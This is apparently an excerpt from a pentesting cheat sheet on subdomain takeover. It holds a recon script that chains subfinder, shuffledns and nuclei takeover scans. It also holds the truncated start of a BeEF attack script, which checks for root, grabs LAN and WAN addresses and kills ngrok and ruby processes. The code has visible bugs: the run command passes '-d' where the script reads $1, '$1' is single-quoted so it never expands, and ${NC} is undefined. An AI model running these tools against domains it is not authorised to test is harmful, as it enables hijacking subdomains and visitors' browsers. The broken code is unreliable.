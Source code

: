 ```bash
DOMAIN=$1
echo "1.1.1.1" > /tmp/resolvers.txt

echo "[+] Finding subdomains for $DOMAIN..."
subfinder -d "$DOMAIN" -all > /tmp/available.txt

echo "[+] Resolving subdomains using shuffledns..."
shuffledns -d "$DOMAIN" \
           -list /tmp/available.txt \
           -r /tmp/resolvers.txt \
           -mode resolve \
           -o /tmp/subdomains.txt

echo "[+] Checking for subdomain takeover vulnerabilities..."
nuclei -tags takeover -l /tmp/subdomains.txt
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x sub-takeover.sh;sudo ./sub-takeover.sh -d $WEBSITE
```

### [BeEF](https://github.com/beefproject/beef)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beef-sub-takeover.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'
URL='$1'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    echo -e "${RED}[X] Please run as ROOT...${NC}"
    echo -e "${GREEN}[*] sudo ./takeover.sh <URL>${NC}"
    exit 1
fi

# Check for argument
if [[ $# -ne 1 ]]; then
    echo -e "${RED}[X] Please provide a URL...${NC}"
    echo -e "${GREEN}[*] sudo ./takeover.sh <URL>${NC}"
    exit 1
fi

# Get current user and LAN/WAN IP address
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running instances of ngrok and ruby
pkill -f 'ngrok|ruby'

```